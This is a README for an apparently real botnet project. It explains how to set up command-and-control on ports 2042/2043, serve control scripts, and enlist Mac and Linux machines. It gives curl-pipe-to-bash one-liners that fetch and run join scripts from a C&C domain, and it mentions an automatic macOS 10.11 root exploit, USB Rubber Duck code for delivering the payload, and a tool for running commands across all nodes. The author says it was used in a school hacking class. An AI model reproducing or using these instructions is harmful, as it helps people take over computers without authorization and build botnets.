 # net
Code for building and administrating a rudimentary botnet.

**Please note that I strictly used this code for educational purposes as explained below. I do not and never have run a DDoSsing botnet or other such illegal operation and do not condone the use of this code for any malicious purpose.**

## Why I wrote this
I used this code at the Virginia Residential Governor's School for Math, Science, and Technology to take over 36 Raspberry Pi microcomputers and Kali Linux desktops in the hacking class in which I partook. Such behavior was encouraged, and I did not violate any rules.

## Compatible Operating Systems
* macOS/OS X - on 10.11 (El Capitan), exploit will be used to gain a root shell and payload will be automatically delivered. For other versions, root must be obtained manually.
* Debian-based GNU/Linux - Tested on Kali Linux and Raspbian, should work on other distros. Root exploit isn't automatic on any Linux, so you'll need to already have root access.

## How it works
### Command & Control
C&C is managed on ports `2042` & `2043` of a server. A simple Python script opens a socket on port `2043` which listens for incoming data from nodes, such as new nodes' joining signals, updates on connection state, and other data. All requests to the server are printed to the terminal, and important ones are written into `nodes.txt`.

To make control scripts available, run
```sh
python3 -m http.server 2042
```
from the `control` directory. This will use Python's inbuilt simple HTTP server to serve control scripts to nodes upon request.

### Joining
On macOS, two scripts are used to join a computer to the network, `join.sh` and `enact.sh`. `join.sh` allows one-command joining: it will download and decrypt an exploit needed to elevate to a root shell and then run `enact.sh` in that root shell automatically. That script will handle joining the botnet.

For GNU/Linux, there's just one script, `join.sh`, which must be executed as root or as a user with root privileges.

Here are simple one-liners to join the botnet (I recommend purchasing a simple domain for easy C&C):

Mac:
```sh
curl -L [domain]:2042/mac/join.sh |bash
```
Linux:
```sh
curl -L [domain]:2042/linux/join.sh |bash
```

### Rubber Duck code
In the `duck` directory, you'll find Arduino code for delivering the join scripts automatically to macOS and Linux computers.

This code is intended for use with a Digispark ATTINY85 drive, though it can be easily modified to work with other Rubber Duck USBs.

To upload this code to your drive, follow [this tutorial](https://www.youtube.com/watch?v=fGmGBa-4cYQ).

### Tools
Running `tools/run.sh` followed by a string giving the command you'd like to run will cause all nodes in `nodes.txt` (in your working directory) to run that command through SSH. This is less useful now that cron control exists. You can also run `up.sh` to view which/how many nodes on the current network are online.

## Licensing
This software was created by [Erik Boesen](https://github.com/ErikBoesen) and is available under the [MIT License](LICENSE).
